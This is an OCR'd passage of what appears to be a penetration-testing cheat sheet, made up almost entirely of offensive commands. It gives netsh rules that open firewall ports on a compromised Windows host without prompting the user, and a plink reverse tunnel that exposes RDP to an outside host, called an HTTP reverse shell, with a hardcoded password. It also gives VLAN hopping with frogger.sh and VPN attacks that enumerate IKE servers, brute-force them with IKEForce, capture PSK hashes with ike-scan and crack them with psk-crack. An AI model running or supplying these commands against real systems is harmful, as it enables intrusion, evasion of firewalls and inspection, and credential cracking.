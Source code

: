 -   Tunnel Remote Desktop (RDP) from a Popped Windows using HTTP Tunnel
    (bypass deep packet inspection)

    -   Windows machine add required firewall rules without prompting
        the user

    -   netsh advfirewall firewall add rule name="httptunnel\_client"
        dir=in action=allow program="httptunnel\_client.exe" enable=yes

    -   netsh advfirewall firewall add rule name="3000" dir=in
        action=allow protocol=TCP localport=3000

    -   netsh advfirewall firewall add rule name="1080" dir=in
        action=allow protocol=TCP localport=1080

    -   netsh advfirewall firewall add rule name="1079" dir=in
        action=allow protocol=TCP localport=1079

    -   Start the http tunnel client  
        httptunnel\_client.exe

    -   Create HTTP reverse shell by connecting to localhost port 3000  
        plink -l root -pw 23847sd98sdf987sf98732 -R 3389:$ip:3389 $ip -P
        3000

-   VLAN Hopping

    -   git clone https://github.com/nccgroup/vlan-hopping.git  
        chmod 700 frogger.sh  
        ./frogger.sh

-   VPN Hacking

    -   Identify VPN servers:  
        ./udp-protocol-scanner.pl -p ike $ip

    -   Scan a range for VPN servers:  
        ./udp-protocol-scanner.pl -p ike -f ip.txt

    -   Use IKEForce to enumerate or dictionary attack VPN servers:  
        pip install pyip  
        git clone <https://github.com/SpiderLabs/ikeforce.git>  
        Perform IKE VPN enumeration with IKEForce:  
        ./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic  
        Bruteforce IKE VPN using IKEForce:  
        ./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w
        passwords.txt -s 1  
        Use ike-scan to capture the PSK hash:  
        ike-scan  
        ike-scan TARGET-IP  
        ike-scan -A TARGET-IP  
        ike-scan -A TARGET-IP --id=myid -P TARGET-IP-key  
        ike-scan –M –A –n example\_group -P hash-file.txt TARGET-IP  
        Use psk-crack to crack the PSK hash  
        psk-crack hash-file.txt  
        pskcrack  
        psk-crack -b 5 TARGET-IPkey  
        psk-crack -b 5
        --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz"
        192-168-207-134key  
        psk-crack -d /path/to/dictionary-file TARGET-IP-key
